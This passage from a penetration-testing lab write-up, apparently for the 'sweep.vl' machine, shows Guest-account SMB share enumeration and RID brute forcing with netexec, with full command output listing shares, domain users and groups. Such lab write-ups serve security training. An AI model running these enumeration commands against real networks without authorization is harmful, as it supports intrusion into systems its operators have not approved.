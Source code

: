- [http://sweep.vl:81/login.aspx](http://sweep.vl:81/login.aspx)

### SMB Enumeration

In the meanwhile we found an active `Guest` account which we used for enumerating the `SMB share`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.118.121 -u 'Guest' -p '' --shares
SMB         10.10.118.121   445    INVENTORY        [*] Windows 10.0 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.121   445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.10.118.121   445    INVENTORY        [*] Enumerated shares
SMB         10.10.118.121   445    INVENTORY        Share           Permissions     Remark
SMB         10.10.118.121   445    INVENTORY        -----           -----------     ------
SMB         10.10.118.121   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.118.121   445    INVENTORY        C$                              Default share
SMB         10.10.118.121   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.118.121   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.118.121   445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.118.121   445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.118.121   445    INVENTORY        SYSVOL                          Logon server share
```

### RID Brute Forcing

Since the files contained nothing of interest but we were able to read `IPC$` we used `RID Brute Forcing` to find more `users`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.118.121 -u 'Guest' -p '' --shares --rid-brute
SMB         10.10.118.121   445    INVENTORY        [*] Windows 10.0 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.121   445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.10.118.121   445    INVENTORY        [*] Enumerated shares
SMB         10.10.118.121   445    INVENTORY        Share           Permissions     Remark
SMB         10.10.118.121   445    INVENTORY        -----           -----------     ------
SMB         10.10.118.121   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.118.121   445    INVENTORY        C$                              Default share
SMB         10.10.118.121   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.118.121   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.118.121   445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.118.121   445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.118.121   445    INVENTORY        SYSVOL                          Logon server share 
SMB         10.10.118.121   445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
```